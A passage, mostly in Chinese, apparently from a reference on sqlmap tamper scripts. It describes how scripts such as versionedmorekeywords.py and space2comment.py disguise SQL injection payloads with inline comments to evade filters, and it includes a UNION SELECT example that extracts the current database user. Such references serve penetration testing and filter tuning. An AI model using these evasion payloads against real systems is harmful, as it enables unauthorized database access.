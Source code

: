 * * *

作用：追加特制的字符串

```
Example: ('1 AND 1=1') "1 AND 1=1 and '0having'='0having'" 

```

Tested against: all

## 脚本名：versionedmorekeywords.py

* * *

作用：注释绕过

```
Example: 

* Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# 

* Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))# 

```

Requirement:

*   MySQL >= 5.1.13

## 脚本名：space2comment.py

* * *

作用：Replaces space character (‘ ‘) with comments ‘/**/’

```
Example: 

* Input: SELECT id FROM users 

* Output: SELECT//id//FROM/**/users

```

Tested against:

*   Microsoft SQL Server 2005

*   MySQL 4, 5.0 and 5.5

*   Oracle 10g

*   PostgreSQL 8.3, 8.4, 9.0

案例一:wooyun.org/bugs/wooyun-2010-046496
